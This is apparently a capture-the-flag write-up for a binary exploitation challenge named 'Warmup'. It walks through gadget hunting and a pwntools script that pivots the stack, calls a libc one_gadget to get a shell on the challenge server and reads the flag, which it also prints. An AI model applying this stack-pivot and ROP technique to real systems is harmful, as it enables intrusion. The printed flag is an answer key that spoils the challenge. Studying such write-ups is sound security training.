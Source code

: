 https://ctftime.org/event/2222

# Warmup (PWN)

Here's something to get you warmed up, spin that gdb up.

nc 172.210.129.230 1338

## Binary Analysis

- `main` @ `0x004011da`
    - reads up to 0x200 bytes into `name`
    - reads up to 0x58 bytes into a buffer onto the stack such that we control the return address

- `okey` @ `0x00401186`
    - provides us with a `pop rsp` gadget

So we must:
1) Write shellcode to `name`
2) Stack pivot, using the provided `pop rsp` gadget, to `name`.

## Getting libc.so.6

We can see from the `Dockerfile` that the task is using `ubuntu:latest`:

```
FROM ubuntu:latest

RUN apt-get update
RUN apt-get install socat -y

EXPOSE 1338

RUN useradd ctf

WORKDIR /chal
COPY warmup /chal
COPY flag.txt /chal

USER ctf

CMD ["socat", "tcp-l:1338,reuseaddr,fork", "EXEC:./warmup"]
```

We can grab that version of `libc.so.6` using ret's libc command:

```
$ ret libc ubunutu:latest
📥 adding "/tmp/ret-libc-2865571937/ubunutu:latest.libc.so.6" fc4c52f3910ed57a088d19ab86c671358f5e917cd4e95b21fd08e4fd922c0aa2
```

https://github.com/rerrorctf/ret/blob/main/commands/libc.go

Note that, due to the use of the `ubuntu:latest` tag, it is possible that you will get a `libc.so.6` with a different hash.

## Gadgets

Our provided `pop rsp` gadget:

```
$ ROPgadget --binary ./warmup | grep -E ": pop rsp"
0x000000000040118e : pop rsp ; ret
```

```
$ one_gadget ./libc.so.6 
0x583dc posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

```

We need a gadget to write the address of the `one_gadget` to another region of writable memory that can function as a stack:

```
$ ROPgadget --binary ./libc.so.6 | grep -E ": mov qword ptr \[[a-z]{3}\], [a-z]{3} ; ret$"
0x000000000003b1e7 : mov qword ptr [rax], rdx ; ret
0x000000000009a077 : mov qword ptr [rcx], rdx ; ret
0x00000000000bf466 : mov qword ptr [rdi], rcx ; ret
0x00000000000bcb90 : mov qword ptr [rdi], rdx ; ret
0x000000000003ba60 : mov qword ptr [rdx], rax ; ret
0x00000000000b4644 : mov qword ptr [rdx], rcx ; ret
0x000000000013b961 : mov qword ptr [rsi], rdi ; ret
0x000000000005ad5a : mov qword ptr [rsi], rdx ; ret
```

We need a gadget, or set of gadgets, to conform with the `one_gadget` constraints:

```
$ ROPgadget --binary ./libc.so.6 | grep -E "pop rdx.*xor eax, eax.*; ret$"
0x00000000000b502c : pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
```

We can combine this, specifically the `pop rdx` part, with the `mov qword ptr [rdx], rsi` gadget above.

## Solution

One problem that I encountered was that when getting the shell `rsp` would end up pointing to a non-writable region of memory. To account for this I reuse the `pop rsp` gadget to set `rsp` to something more suitable prior to returning to the `one_gadget`'s address:

You can see the writable regions here. If we aim for the end of 0x404000 it will probably work well enough as a stack to avoid the crashes:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /home/user/ctf/warmup/warmup
          0x401000           0x402000 r-xp     1000   1000 /home/user/ctf/warmup/warmup
          0x402000           0x403000 r--p     1000   2000 /home/user/ctf/warmup/warmup
          0x403000           0x404000 r--p     1000   2000 /home/user/ctf/warmup/warmup
          0x404000           0x405000 rw-p     1000   3000 /home/user/ctf/warmup/warmup
    0x7ffff7c00000     0x7ffff7c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7c28000     0x7ffff7db0000 r-xp   188000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db0000     0x7ffff7dff000 r--p    4f000 1b0000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7dff000     0x7ffff7e03000 r--p     4000 1fe000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e03000     0x7ffff7e05000 rw-p     2000 202000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e05000     0x7ffff7e12000 rw-p     d000      0 [anon_7ffff7e05]
    0x7ffff7f9e000     0x7ffff7fa1000 rw-p     3000      0 [anon_7ffff7f9e]
    0x7ffff7fbd000     0x7ffff7fbf000 rw-p     2000      0 [anon_7ffff7fbd]
    0x7ffff7fbf000     0x7ffff7fc3000 r--p     4000      0 [vvar]
    0x7ffff7fc3000     0x7ffff7fc5000 r-xp     2000      0 [vdso]
    0x7ffff7fc5000     0x7ffff7fc6000 r--p     1000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc6000     0x7ffff7ff1000 r-xp    2b000   1000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ff1000     0x7ffff7ffb000 r--p     a000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

Note that the `one_gadet` requires that `rsp & 0xf == 0`. This was achieved through simple trial and error of the `FAKE_STACK` location adding or subtracting 0x8 bytes until it is correct.

```python
from pwn import *

elf = ELF("./warmup", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b *0x401280")
p = remote("172.210.129.230", 1338)

leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["puts"]
log.success(f"libc: 0x{libc.address:X}")

p.readuntil(b"name>> ")

ONE_GADGET = libc.address + 0x583dc # rax=0 rbx=0 rsp&0xf=0
MOV_RSI_RDX = libc.address + 0x000000000005ad5a
POP_RDX_XOR_EAX_EAX_POP_RBX_POP_R12_POP_R13 = libc.address + 0x00000000000b502c
POP_RSI_POP_R15 = libc.address + 0x000000000010f759
POP_RSP = 0x000000000040118e
FAKE_STACK = 0x405000 - 0x208

payload = b""
payload += p64(POP_RSI_POP_R15)
payload += p64(FAKE_STACK)
payload += p64(0)
payload += p64(POP_RDX_XOR_EAX_EAX_POP_RBX_POP_R12_POP_R13)
payload += p64(ONE_GADGET)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(MOV_RSI_RDX)
payload += p64(POP_RSP)
payload += p64(FAKE_STACK)
p.sendline(payload)

p.readuntil(b"alright>> ")

payload = b"B" * 0x48
payload += p64(POP_RSP)
payload += p64(elf.symbols["name"])
p.sendline(payload)

p.clean()

p.sendline(b"/bin/cat flag.txt")

p.interactive()
```

## Flag
`AKASEC{1_Me44444N_J00_C0ULDve_ju57_574CK_p1V07ed}`
